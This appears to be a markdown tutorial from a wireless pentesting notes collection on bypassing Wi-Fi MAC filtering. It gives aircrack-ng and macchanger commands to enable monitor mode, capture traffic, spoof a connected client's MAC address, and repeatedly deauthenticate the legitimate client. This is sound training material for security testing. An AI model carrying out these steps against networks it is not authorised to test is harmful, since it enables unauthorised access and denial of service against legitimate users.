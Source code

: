 # MAC filtering bypass
MAC filtering involves allowing only devices with specific MAC (Media Access Control) addresses to connect to the network. This process typically involves MAC address spoofing, where an attacker changes their device's MAC address to match an allowed device, thereby gaining access to the network. 

We might have the right password, but there might be MAC filtering going on that will disallow us from connecting to the network. To bypass the MAC filtering, we can spoof our MAC address to match one of the connected clients. However, this approach often leads to collision events, as two devices with the same MAC address cannot coexist on the same network simultaneously. However, one device can connect to the 2.4GHz frequency, and another device with the same MAC address can connect to the 5GHz.

To connect to the same frequency, forcibly disconnect the legitimate client via deatuh, thereby freeing up the MAC address for use, then connect with spoofed IP.

### NOTE
Occasionally, when configuring our MAC address to match that of a client or access point, we may encounter collision events at the data-link layer. This technique of bypassing MAC filtering is most effective when the client we're mimicking is not currently connected to our target network. However, there are instances where these collision events become advantageous to us, serving as a means of denial-of-service (DOS) attack. In the case of a dual-band or multiple access point network, we may be able to utilize a MAC address of a client connected to a separate access point within the same wireless infrastructure.

---

## Setup
Set router to max power
```
ifconfig wlan1 down
```
```
iwconfig wlan1 txpower 30
```
```
ifconfig wlan1 up
```
Preemptively kill everything that gets in your way:
```
airmon-ng check kill
```
Start monitor mode:
```
airmon-ng start wlan1
```
Run a test:
```
aireplay-ng --test wlan1mon
```
Should see `Injection is working!`

Save what's out there and save to a file:
```
airodump-ng wlan1mon --band agp -w dump
```

---

See MAC address
```
macchanger wlan1mon
```
What is on 2.4? 5? Hidden Networks? What's clients are connected to what APs?
Change MAC address:
```
ifconfig wlan1mon down
```
```
macchanger wlan1 -m 3E:48:72:B7:62:2A
```
```
ifconfig wlan1mon up
```
Check changes made:
```
macchanger wlan1mon
```
OR:
```
ifconfig wlan1
```
Then attempt to connect to AP via GUI or CLI and verify connection with:
```
ifconfig
```
Remember 2 devices can't connect to the same network with the same MAC address so either:
- Perpetually deauth legit client to free up space however it's most effective when the client we're mimicking is not currently connected to our target network at all.
- Connect to the other frequency the device isn't connected to on the network (5 or 2.4)


